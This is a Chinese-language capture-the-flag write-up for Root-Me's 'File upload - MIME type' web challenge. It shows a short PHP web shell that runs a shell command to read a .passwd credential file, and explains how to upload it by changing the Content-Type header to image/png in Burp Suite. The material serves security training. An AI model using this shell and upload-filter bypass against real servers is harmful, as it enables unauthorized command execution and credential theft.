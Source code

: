 ## [[Root-Me](https://www.root-me.org/)] [[Web-Server](https://www.root-me.org/en/Challenges/Web-Server/)] [[File upload - MIME type](https://www.root-me.org/en/Challenges/Web-Server/File-upload-MIME-type)] [[解题报告](https://exp-blog.com/safe/ctf/rootme/web-server/fileupload-mimetype/)]

------

这题和【[Web-Server : File upload - double extensions](http://exp-blog.com/2019/01/13/pid-2985/)】的渗透思路是一样的，区别在于绕过方式。

上传一个文件测试一下，发现这次无法再利用双重后缀绕过了，只能上传图片后缀的文件。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B15%5D%20%5B20P%5D%20File%20upload%20-%20MIME%20type/imgs/01.png)

题目提示是使用 MIME type 实现绕过。

那么构造 payloads 文件内容都是一样的，不过因为不能利用后缀绕过，所以文件名保持为 `exp.php` 即可：

```php
<?php
	// exp.php
	// 假如这个文件上传成功，则可以利用 web 打开这个文件进行解析时进行路径穿越
	$content = shell_exec('cat ../../../.passwd');
	echo "<pre>$content</pre>";
?>
```

使用 Burp Suite -> Repeater 进行上传，同时要修改 `Content-Type` 的值为 `image/png` 即可实现绕过（原值为 `application/octet-stream`）。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B15%5D%20%5B20P%5D%20File%20upload%20-%20MIME%20type/imgs/02.png)

上传成功后刷新 upload 分类页面，找到 `exp.php` 打开即可获得密码，完成挑战。


![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B15%5D%20%5B20P%5D%20File%20upload%20-%20MIME%20type/imgs/03.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
